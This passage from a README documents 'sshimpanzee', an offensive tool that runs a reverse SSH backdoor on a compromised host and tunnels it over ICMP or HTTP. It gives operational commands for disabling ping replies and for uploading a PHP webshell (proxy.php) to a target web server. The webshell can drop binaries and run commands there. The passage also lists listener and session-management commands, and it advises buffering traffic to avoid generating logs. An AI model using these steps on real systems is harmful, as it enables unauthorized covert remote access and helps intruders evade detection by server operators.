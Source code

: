 1) Your server, add the correct capabilities to avoid running the proxycommand as root and disable ping response from the system
``` 
sudo setcap cap_net_raw+ep icmptunnel
echo 1 | sudo dd of=/proc/sys/net/ipv4/icmp_echo_ignore_all 
```

2) Run the standard ssh client with icmptunnel as proxycommand:
```
ssh i -oProxyCommand=./icmptunnel -i test/CLIENT 
```

3) Run	the sshimpanzee	binary:
```
MODE=icmp REMOTE=127.0.0.1 ./sshimpanzee 
```


### Use HTTP Encapsulation (ssh -> http server -> sshd)

1) Upload the file /tuns/http_enc/proxy.php and sshd files to your target web server

2) Make sure proxy.php is correctly executed 

3) Run sshd binary on the webserver
```
MODE=http_enc ./sshimpanzee 
```

4) run ssh on client machine with python script in utils/scripts/ as proxy command :
```
ssh -o ProxyCommand='python proxy_cli.py http://127.0.0.1:8080/proxy.php EncryptionKey 2>/dev/null' a@a -i ../../keys/CLIENT 
```
> Multiple argument can be passed to  proxy_cli.py to add proxies proxies.
> Currently only PHP is supported. On a JSP server, it is recommended to use: [A Black Path Toward The Sun (ABPTTS)](https://github.com/nccgroup/ABPTTS)


#### Side notes about http Encapsulation
1) Proxy.php is a minimal webshell, you can use it to upload sshd to the server and run commands. proxy_cli.py offers --run and --drop options to do so.

2) You might experience a huge input lag, it is because a delay of 1 to 5 second is added to the packet sent by ssh client to prevent from generating to many http request. If you don't mind generating a lot of http request (thus a lot of logs on the web server) add the --no-buffer option to proxy_cli.py command.

## Using the sshimpanzee client
This repo also provide a client located in __utils/client/bin__.
Simply copy the CLIENT key in utils/client/keys/
```
sshimpanzee --new PORT #create a new listener on PORT
sshimpanzee --new-dns #create a new DNS listener (Don't forget to modify utils/client/config/dnsconf.txt)
sshimpanzee --new-icmp #create a new icmp listener
sshimpanzee --new-http PROXY_PHP_URL #create a new HTTP Session 

sshimpanzee --list #list availaible sessions

sshimpanzee --get SESSION_NUMBER #to jump into a session any extra parameters are passed as ssh params
sshimpanzee --rename SESSION_NUMBER #to rename a session
sshimpanzee --kill SESSION_NUMBER #to kill a session
sshimpanzee #use fzf to select which session you want
```
